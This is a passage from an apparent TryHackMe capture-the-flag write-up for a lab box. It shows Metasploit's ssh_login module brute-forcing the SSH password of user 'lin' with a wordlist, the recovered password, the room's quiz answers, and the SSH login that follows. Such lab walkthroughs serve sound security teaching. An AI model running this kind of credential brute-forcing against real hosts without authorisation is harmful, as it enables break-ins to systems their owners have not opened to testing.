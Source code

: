 ```
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           false            yes       Whether to print output for all attempts
```

Ok, we will configure the username to ``lin``, the pass_file to ``locks.txt``, and the RHOSTS variable to the IP of the box, which in my case is ``10.10.170.118``. 

```
msf5 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 10.10.170.118
RHOSTS => 10.10.170.118
msf5 auxiliary(scanner/ssh/ssh_login) > set USERNAME lin
USERNAME => lin
msf5 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE locks.txt
PASS_FILE => locks.txt
```

Now we'll run the module to begin bruteforcing...

```
msf5 auxiliary(scanner/ssh/ssh_login) > run

[+] 10.10.170.118:22 - Success: 'lin:RedDr4gonSynd1cat3' 'uid=1001(lin) gid=1001(lin) groups=1001(lin) Linux bountyhacker 4.15.0-101-generic #102~16.04.1-Ubuntu SMP Mon May 11 11:38:16 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 1 opened (10.2.19.105:35275 -> 10.10.170.118:22) at 2020-11-03 15:13:46 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

And we got credentials! 

``lin:RedDr4gonSynd1cat3``

With this, we can answer TryHackMe's next questions:

```
What service can you bruteforce with the text file found?
> ssh

What is the users password? 
> RedDr4gonSynd1cat3
```

Now let's login with ssh.


```
kali@kali:~/Desktop/thm/bountyhacker$ ssh lin@10.10.170.118
The authenticity of host '10.10.170.118 (10.10.170.118)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.170.118' (ECDSA) to the list of known hosts.
lin@10.10.170.118's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ 
```
